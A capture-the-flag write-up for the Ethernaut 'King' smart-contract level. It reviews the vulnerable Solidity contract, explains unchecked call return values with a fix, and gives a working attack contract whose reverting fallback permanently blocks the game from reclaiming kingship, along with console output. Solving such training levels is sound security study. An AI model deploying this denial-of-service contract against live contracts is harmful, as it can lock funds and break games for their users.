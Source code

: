 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel9.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

Challenge's message.

>The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
Such a fun game. Your goal is to break it.
When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


At the beginning of the contract, there are defined variables such as king, owner and prize. Also, these variables are assigned when the contract is created in the payable constructor. After the definition of king and king's prize, there is a specific function called ``receive()``that works to remand the new king's prize to the ex-king address and update the new king address and king's prize when someone is the owner or sends more than the king's ether to the contract. And finally, there is a function which returns us to current king address.

As with every challenge, this contract has some potential issues. One of these issues like forgot to check the external process status. Here we go...

# Subverting

Before talking about my attack contract, I want to explain some topics. If you know about the vulnerability of **uncheck calls returns value**, you would skip this part.

### Calls In Solidity 

There are a number of ways of performing external calls in Solidity. Sending ether to external accounts is commonly performed via the ``transfer`` method. However, the ``send`` function can also be used, and for more versatile external calls the ``call`` **opcode** can be directly employed in Solidity. You can start an external calls in the contract with send ether to other contracts by

  - ``transfer`` :  (2300 gas, throws error)
  - ``send`` : (2300 gas, returns bool)
  - ``call`` : (forward all gas or set gas, returns bool)

this methods. Here we can see that when we use to send or call to send ether or perform any transactions, it returns a boolean value i.e. true or false. Unless you check this return value, you will face something critical vulnerability.

### Security Issue : Uncheck Calls Returns Value

 The ``call`` and ``send`` functions return a boolean indicating whether the call succeeded or failed. As a result, if the call return value is not checked, execution will resume even if the called contract throws an exception. If the call fails accidentally or an attacker forces the call to fail, this may cause unexpected behavior in the subsequent program logic. Here is a contract which too has an example of this problem.
 
 ```solidity
 
contract Lotto {
    bool public payedOut = false;
    address public winner;
    uint public winAmount;

    // ... extra functionality here

    function sendToWinner() public {
        require(!payedOut);
        winner.send(winAmount);
        payedOut = true;
    }

    function withdrawLeftOver() public {
        require(payedOut);
        msg.sender.send(this.balance);
    }
}
 
 ```
 This represents a Lotto-like contract, where a ``winner`` receives ``winAmount`` of ether, which typically leaves a little left over for anyone to withdraw.

The vulnerability exists on sendToWinner() function, where a send is used without checking the response. In this example, a winner whose transaction fails (either by running out of gas or by being a contract that intentionally throws in the fallback function) allows ``payedOut`` to be set to ``true`` regardless of whether ether was sent or not. In this case, **anyone can withdraw the winner’s winnings via the withdrawLeftOver function**.

### Prevention

Actually, this vulnerability easily fix it. The only thing must to do is check the returns value of the process and set the gas limit of transaction. Here is basic example of this solution.

```solidity

// Vulnerable Code

  function Transfer(address _a)public{
      (bool success, bytes memory data) = _a.call{value: msg.value,gas: 5000}();
  }

```

```solidity

// Safe Code

function Transfer(address _a)public{
      (bool success, bytes memory data) = _a.call{value: msg.value,gas: 5000}();
      require(success,"Transfer failed");
  }

```
As you see in the contracts, just require check and gas limit resolve the problem.
## Attack Contract

Here is my attack contract.

```solidity
pragma solidity ^0.8.0;

import './King.sol';

contract Attack{

    constructor(address payable _target) payable{
        address(_target).call{value: msg.value}("");
    }

    fallback()external{
        revert("Hack ponzi");
    }
}
```

First thing first is as always solidity version and import our target contract's file into attack contract. After that, get the instance of target contract and call it with sending more than king's prize in the constructor. When the ``call`` method works, the target contract will send ether to ex king's address and updated the attack contract as new king. Also, when someone wants to be a new king of target contract, he/she won't be a new king because of our fallback() function will have blocked this process. 

To explain more clearly, if the target contract change to kingship as different from attack contract, it will send ether to this contract but in the fallback() will have reverted to transaction. In this way, we'll stay king of the target contract every time.

### Attack Senario

Check the king of target contarct.

```shell
await contract._king()
'0x3049C00639E6dfC269ED1451764a046f7aE500c6'
```

Check the king's prize.

```shell

fromWei(await contract.prize())
'0.001'

```
When we deploy the attack contract, we must send higher than this price. It equals to 1000000000000000 wei. Let's send 2000000000000000 wei to attack contract's constructor and deploy it.

<p align="center"><img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/King/src/deploy.png"></p>

And we get kingship of the contract forever. As ponzi getsXD

```shell
await contract._king()
'0xE27F0dB592D69A14f5FD26ba434056e22C375388'
```

Challange's message.

> Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.
In this case, see: King of the Ether and King of the Ether Postmortem

**_by wasny0ps_**
